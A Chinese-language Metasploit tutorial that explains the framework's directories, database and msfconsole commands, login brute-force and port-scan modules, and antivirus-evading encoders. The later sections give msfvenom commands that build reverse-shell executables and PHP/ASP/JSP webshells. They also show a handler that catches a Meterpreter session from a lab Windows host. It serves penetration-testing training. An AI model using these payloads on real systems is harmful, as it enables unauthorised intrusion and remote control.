# 1.**Metasploit简介**

The Metasploit Framework 的简称。 MSF 高度模块化，即框架由多个 module 组成，是全球最受欢迎的渗透测试工具之一。

是一款开源安全漏洞利用和测试工具，集成了各种平台上常见的溢出漏洞和流行的shellcode ，并持续保持更新。

metasploit 涵盖了渗透测试中全过程，你可以在这个框架下利用现有的 Payload进行一系列的渗透测试。

## 1.1.**Metasploit下载**

在kail中自带Metasploit工具，这里可以直接使用。若确实需要下载在其它位置，那么也可以去官网进行下载，同时在官网中还附带相应的官方手册。

[官网](https://www.offensive-security.com/metasploit-unleashed/introduction/)

## 1.2.**Metasploit框架结构**

### 1.2.1.**框架路径**

框架目录路径：/usr/share/metasploit-framework

 

### 1.2.2.**框架内容介绍**

在框架的目录下，有很多的目录文件，其中比较重用的有data、modules、scripts、tools、plugins等。

[参考链接](https://blog.csdn.net/whatday/article/details/82918998)

#### 1.2.2.1.**data目录文件**

data目录文件中，包含meterpreter、exploits、wordlists、templates等等。

meterpreter这个模块，这个通常用于后漏洞利用的功能当中。

wordlists目录，这里面包含了大量的字典。

 

exploits目录，里面包含大量的CVE漏洞利用代码，可供渗透过程中使用等等。

 

#### 1.2.2.2.**modules目录文件**

modules这个目录，这个目录当中包含以下模块:auxiliary、encoders、exploits、nops、payloads、post。

exploits(漏洞攻击模块列表)

 

auxiliary(漏洞辅助模块，一般是没有攻击载荷的漏洞攻击)

 

encoders(编码器模块)

 

nops(无操作生成器模块)

 

payloads(漏洞负载模块)

 

post(开发模块)

 

#### 1.2.2.3.**scripts目录文件**

scripts目录，该目录下面存放的是各种脚本文件，分别是meterpreter、resource、shell。

 

#### 1.2.2.4.**tools目录文件**

tools目录，该目录下面存放着大量的使用工具。

 

#### 1.2.2.5.**plugins****目录文件**

plugins，该目录下面包含着大量的插件。

 

## 1.3.**Metasploit更新**

msfconsole -v  #查看版本

apt-get update

apt-get install metasploit-framework

# 2.**MSF中数据库设置**

Metasploit支持使用postgresql数据库来保存渗透测试过程中获取的各种数据。关于数据库这里，并非这一步必须先学习，因为只有当后期用到了，才需要了解，前期测试，并不需要把数据先保存起来。

所以这一块可以先跳过，回头再来看。

## 2.1.**数据库设置**

开启数据库：service postgresql start

初始化数据库： msfdb init

 

若你已经配置执行此命令就会提示“A database appears to be already configured, skipping initialization（数据库似乎已经配置，跳过初始化）”；

## 2.2.**数据库测试**

这里当初始化成功后，就可以对数据库进行测试了，至于怎么进入msf6在后面会提到。这里不是必须先学习数据库。

命令：db_status

 

若没有连接可以手工连接。

命令：db_connect 用户名:口令@服务器地址:端口/数据库名称。

## 2.3.**数据库管理命令**

| 命令         | 解释                       |
| ------------ | -------------------------- |
| msfdb init   | 启动并初始化数据库         |
| msfdb reinit | 删除并重新初始化数据库     |
| msfdb delete | 删除并停止使用数据库       |
| msfdb start  | 启动数据库                 |
| msfdb stop   | 停止数据库                 |
| msfdb status | 检查服务状态               |
| msfdb run    | 启动数据库并运行msfconsole |

# 3.**Metasploit命令介绍**

[参考链接](https://blog.csdn.net/qq_61503377/article/details/126104445?spm=1001.2100.3001.7377&utm_medium=distribute.pc_feed_blog_category.none-task-blog-classify_tag-2-126104445-null-null.nonecase&depth_1-utm_source=distribute.pc_feed_blog_category.none-task-blog-cl)

## 3.1.**Metasploit启动**

Msfconsole 是 Metasploit 框架用户接口，我们能通过 Msfconsole 接口使用Metasploit 中所有模块。

这里需要注意的是，我是在目录下启动的，实际上并非需要在目录下启动，只是在写这篇文章的时候，正好在这个目录下。包括下面生成的图形，每一次也是不同的，所以图像并非重要。

命令：msfconsole

 

## 3.2.**Msfconsole用处**

msfconsole主要是用于管理管理 Metasploit数据库、管理会话、配置启动 Metasploit模块。

并且在启动 msfconsole 时，MSF会使用创建的 msf 用户自动登录到 msf 数据库。

## 3.3.**Msfconsole常用命令汇总**

这里的常用命令汇总的一个整体的攻击流程会使用到的命令，并且的很常用的命令，有些命令其实在正常测试中，并非的很常用的，感兴趣的可以自学百度搜索或者去官网查询。

| 命令                    | 介绍                              |
| ----------------------- | --------------------------------- |
| show exploits           | 查看所有可用的渗透攻击程序代码    |
| show auxiliary          | 查看所有可用的辅助攻击工具        |
| [show ]options/advanced | 查看该模块可用选项                |
| show payloads           | 查看该模块适用的所有载荷代码      |
| show targets            | 查看该模块适用的攻击目标类型      |
| search                  | 根据关键字搜索某模块              |
| info                    | 显示某模块的详细信息              |
| use                     | 使用某渗透攻击模块                |
| back                    | 回退                              |
| set/unset               | 设置/禁用模块中的某个参数         |
| setg/unsetg             | 设置/禁用适用于所有模块的全局参数 |
| run/exploit             | 执行脚本                          |
| run-j/exploit-j         | 再次执行脚本                      |
| help                    | 帮助命令                          |

### 3.3.1.**命令详细用法**

#### 3.3.1.1.**show exploits**

show exploits，查看所有可用的渗透攻击程序代码，这里是把所有的攻击程序都进行显示，所以有很多，通常情况下也很少用到，只有在实在找不到的时候才会去看看。

 

#### 3.3.1.2.**show auxiliary**

show auxiliary，查看所有可用的辅助攻击工具，这个也是差不多都是很少用到，通常也都是用来看看。

 

#### 3.3.1.3.**[show]options/advanced**

[show]options/advanced，查看该模块可用选项，这里的前提条件就是需要进入某个模块下。在界面中凡是yes的都是必填项，no是可选择项。

 

#### 3.3.1.4.**show payloads**

show payloads，查看该模块适用的所有载荷代码，也是需要先进入某个模块下。

 

#### 3.3.1.5.**show targets**

show targets，查看该模块适用的攻击目标类型，这里简单来说就是系统或者框架等等，例如ms17永恒之蓝能攻击哪些系统。

 

#### 3.3.1.6.**search**

search，根据关键字搜索某模块，这里只需要输入相关的关键字即可进行查找，可以精确查找也可以模糊查找。例如我要查找永恒之蓝，那么我输入：search ms17即可查找到相关的攻击模块和利用模块。

 

#### 3.3.1.7.**info**

info，显示某模块的详细信息，这里也是和选择一样，都可以使用编号或者整个名字。例如我要查看exploit/windows/smb/ms17_010_eternalblue的信息，那么info 0或者exploit/windows/smb/ms17_010_eternalblue都可以。

 

#### 3.3.1.8.**use**

use，使用某渗透攻击模块。这里在查找到的模块下，可以看到有编号开头以及后面的名称，所以这里可以选择use 编号对应的攻击模块或者利用模块，也可以把整个后面的名字都输入进去，都可以。

 

#### 3.3.1.9.**back**

back，回退，应该都能理解。

 

#### 3.3.1.10.**set/unset**

set/unset – 设置/禁用模块中的某个参数。比如这里需要设置受害者IP，那么set RHOSTS IP地址。这里的RHOSTS是不分大小写的。配置成功后可以再次使用show options使用。

 

#### 3.3.1.11.**setg/unsetg**

setg/unsetg，设置/禁用适用于所有模块的全局参数，其实这里set和setg都差不多。

#### 3.3.1.12.**run/exploit**

run/explot，执行漏洞脚本，简单来说就是当选中某一个攻击模块的时候，进行执行。

 

## 3.4.**Msfconsole其它命令汇总**

这里的其它命令汇总，就是将一些不是攻击过程中会使用到的命令，进行汇总，例如查一查历史命令等等，这里我就不一个个演示了，感兴趣的同样可以去自学百度搜索如何使用。

| 命令      | 介绍                       |
| --------- | -------------------------- |
| ？        | 帮助菜单                   |
| banner    | 显示 Metasploit banner信息 |
| cd        | 更改当前工作目录           |
| debug     | 显示对调试有用的信息       |
| exit/quit | 退出控制台                 |
| history   | 显示命令历史记录           |
| load      | 加载框架插件               |
| version   | 显示框架和控制台库版本号   |

# 4.**MSF模块介绍**

模块是通过Metasploit框架装载集成对外提供的最核心的渗透测试功能实现代码。MSF所有的漏洞测试都是基于模块。

## 4.1.**auxiliary**

辅助模块 辅助渗透（端口扫描、登录密码爆破、漏洞验证等）

用于辅助操作的模块，例如网络扫描、枚举、漏洞扫描、登录暴力破解、模糊测试、 蜘蛛（遍历）、数据提取等。

辅助模块能在渗透之前得到目标系统丰富的情报信息，从而发起更具目标性的精准攻 击。 包括针对各种网络服务的扫描与查点、构建虚假服务收集登录密码口令破解、敏 感信息嗅探、fuzz、实施网络协议欺骗等模块。

## 4.2.**exploits**

漏洞利用模块 包含主流的漏洞利用脚本，通常是对某些可能存在漏洞的目标进行漏洞利用。 命名规则：操作系统/各种应用协议分类。

用于利用漏洞和传递有效负载的模块。有远程漏洞利用、本地漏洞利用、权限提升漏 洞利用、客户端漏洞利用、Web 应用程序漏洞利用和许多其他漏洞。

利用发现的安全漏洞或配置弱点对远程目标系统进行攻击，以植入和运行攻击载荷，从而获得对目标系统访问控制权的代码组件。metasploit框架中渗透攻击模块可以按照所利用的安全漏洞所在的位置分为主动渗透攻击与被动渗透攻击两大类。

## 4.3.**payloads**

攻击载荷 主要是攻击成功后在目标机器执行的代码，比如反弹shell的代码、 用于在利用期间执行操作的模块，例如建立Meterpreter 会话、反向 shell、执行命令、下载和执行程序等。攻击载荷是在渗透攻击成功后在目标系统运行的一段植入代码，通常是为渗透攻击者打开在目标系统上的控制会话连接。在传统的渗透代码开发中，攻击载荷只是一段功能简单的ShellCode代码，以汇编语言编制并转换为目标系统CPU体系结构支持的机 器代码，在渗透攻击触发漏洞后，将程序执行流程劫持并跳转入这段机器代码中执 行，从而完成ShellCode中实现的单一功能。

## 4.4.**post**

后渗透阶段模块 漏洞利用成功获得meterpreter之后，向目标发送的一些功能性指令，如：提权等用于在拿到权限后进行后渗透利用操作的模块，例如凭证/哈希转储、本地权限提升、后门安装、敏感数据提取、网络流量隧道（代理）、键盘记录、屏幕捕获和许多 其他操作。

## 4.5.**encoders**

编码器模块 主要包含各种编码工具，对payload进行编码加密，以便绕过入侵检测和过滤系统 用于有效负载编码和加密的模块，例如 base64、XOR、shikata_ga_nai 等。这有助于混淆以规避防病毒或NIDS（网络入侵检测系统）、EDR（端点检测和响应）等防御。

## 4.6.**evasion**

躲避模块 用来生成免杀payload 用于规避防御的模块，例如防病毒规避、AppLocker 绕过、软件限制策略 (SRP) 绕过等。

## 4.7.**nops**

空指令模块 空指令就是空操作，提高paylaod稳定性及维持，用于生成无害、良性的“无操作”指令的模块，例如用于填充目的、在利用期间在内存 中滑动等。

是一些对程序运行状态不会造成任何实质影响的空操作或无关操作指令。

在渗透攻击构造恶意数据缓冲区时，常常要在真正要执行Shellcode时，有一个较大的安全着陆区，从而避免受到内存地址随机化、返回地址计算偏差等原因造成的 Shellcode执行失败，从而提高渗透攻击的可靠性。

metasploit框架中的空指令模块就是用来在攻击载荷中添加空指令区，以提高攻击可 靠性的组件。

# 5.**相关模块介绍**

## 5.1.**auxiliary模块介绍**

这里只介绍常用的，其它的可以自行百度搜索，总结都全了，那还比如直接去看官方文档了。

### 5.1.1.**模块路径**

路径：/usr/share/metasploit-framework/modules/auxiliary/scanner/discovery/

 

### 5.1.2.**arp_sweep**

arp_sweep：使用arp请求枚举本地局域网中的所有活跃主机

使用方式：

use auxiliary/scanner/discovery/arp_sweep

set RHOSTS 192.168.10.0/24

run

 

### 5.1.3.**udp_sweep**

udp_sweep：通过发送UDP数据包探查指定主机是否活跃，并发现主机上udp服务，这里的原理和使用和arp_sweep是一样的，就不过多讲解了。

## 5.2.**MSF服务扫描**

服务扫描确定开放端口后，对相应端口上所运行的服务信息进行挖掘，这里同样介绍常用的模块以及模块中常用的模块。有点像绕口令-.-

至于使用方式基本是一致的，设置需要测试的IP即可。

### 5.2.1.**TELNET服务模块**

1. 模块搜索

命令：search scanner/orcale

2. telnet弱口令探测

命令：use auxiliary/scanner/telnet/telnet_login

3. 扫描telnet版本

命令：use auxiliary/scanner/telnet/telnet_version

### 5.2.2.**SSH服务模块**

1. 模块搜索

命令：search scanner/ssh

2. ssh弱口令探测

命令：use auxiliary/scanner/ssh/ssh_login

3. ssh公共密钥认证登录

命令：use auxiliary/scanner/ssh/ssh_login_pubkey

4. 扫描ssh版本测试

命令：use auxiliary/scanner/ssh/ssh_version

### 5.2.3.**Oracle服务模块**

1. 模块搜索

命令：search scanner/orcale

### 5.2.4.**SMB服务模块**

1. 模块搜索

命令：search scanner/smb

2. SMB枚举

命令：auxiliary/scanner/smb/smb_enumusers

3. 返回DCERPC信息

命令：auxiliary/scanner/smb/pipe_dcerpc_auditor

4. 扫描SMB2协议

命令：auxiliary/scanner/smb/smb2

5. 扫描smb共享文件

命令：auxiliary/scanner/smb/smb_enumshares

6. 枚举系统上的用户

命令：auxiliary/scanner/smb/smb_enumusers

7. SMB登录

命令：auxiliary/scanner/smb/smb_login

8. 扫描组的用户

命令：auxiliary/scanner/smb/smb_lookupsid

9. 扫描系统版本

命令：auxiliary/scanner/smb/smb_version

### 5.2.5.**FTP服务模块**

1. 模块搜索

命令：search scanner/ftp

2. ftp版本扫描

命令：scanner/ftp/ftp_version

3. ftp匿名登录扫描

命令：scanner/ftp/anonymous

### 5.2.6.**SMTP服务模块**

1. 模块搜索

命令：search scanner/smb

2. smtp枚举

命令：auxiliary/scanner/smtp/smtp_enum

3. 扫描smtp版本

命令：auxiliary/scanner/smtp/smtp_version

### 5.2.7.**SNMP服务模块**

1. 模块搜索

命令：search scanner/smb

## 5.3.**MSF端口扫描**

### 5.3.1.**模块配置**

1. 模块搜索

命令：search scanner/portscan

2. 通过ACK扫描的方式对防火墙上未被屏蔽的端口进行探测

命令：auxiliary/scanner/protscan/ack

3. 通过FTP bounce攻击的原理对TCP服务进行枚举

命令：auxiliary/scanner/protscan/ftpbounce

4. 使用发送TCP SYN标志的方式探测开放端口

命令：auxiliary/scanner/protscan/syn

5. 通过一次完整的TCP连接来判断端口是否开放 最准确但是最慢

命令：auxiliary/scanner/protscan/tcp

6. 一种更为隐秘的扫描方式，通过发送FIN，PSH，URG标志，能够躲避一些高级的TCP标记检测器的过滤

命令：auxiliary/scanner/protscan/xmas

### 5.3.2.**模块使用**

use auxiliary/scanner/protscan/syn

set RHOSTS IP地址

set THREADS 20

run

 

## 5.4.**payload生成**

msf中生成payload使用msfvenom。同时在msf生成木马时有四大要素：攻击主机种类（Windows\linux）、木马种类（reverse_tcp\bind shell）、监听主机、监听端口，监听使用就是metepreter。

### 5.4.1.**帮助命令**

通过msfvenom -l可以列出MSFVenom可以生成的payload列表。

 

 

## 5.5.**二进制文件**

### 5.5.1.**生成二进制文件**

这里的LHOST的地址就是攻击机的IP地址，而LPORT的端口就是攻击机的端口。

Windows：

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

Linux：

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

Mac：

msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho

### 5.5.2.**利用方式**

#### 5.5.2.1.**生成payload文件**

这里就针对Windows为例，使用上述的命令生成一个exe的payload文件。同时这里生成的文件就在根目录下。

命令：msfvenom -p windows/meterpreter/reverse_tcp LHOST=<192.168.10.20> LPORT=<4444> -f exe > shell.exe

 

#### 5.5.2.2.**发送payload文件**

这里将构建号的payload文件发送到Windows系统中。

 

#### 5.5.2.3.**监听payload文件**

msfconsole

use exploit/multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 192.168.10.20

set LPORT  4444

set ExitOnSession false

exploit -j -z

 

#### 5.5.2.4.**运行payload文件**

这里运行payload文件可以直接双击运行，或者cmd运行等，均可以实现运行，但是运行并不会弹出窗口等，但其实以及运行了。

#### 5.5.2.5.**上线payload**

这里通过sessions命令可以看到机器上线了。

 

#### 5.5.2.6.**利用payload**

这里可以使用sessions -i 1进行利用，这里的1是序号，可以通过上线的payload的序号进行利用。

 

## 5.6.**webshell脚本**

### 5.6.1.**生成webshell脚本**

PHP：

msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php

ASP：

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

JSP：

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp

WAR：

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

### 5.6.2.**利用方式**

#### 5.6.2.1.**生成payload文件**

这里就针对PHP为例，使用上述的命令生成一个PHP的payload文件。同时这里生成的文件就在根目录下。

命令：msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.10.20 LPORT=4444 -f raw > shell.php

 

#### 5.6.2.2.**发送payload文件**

这里将构建号的payload文件发送到web目录下。

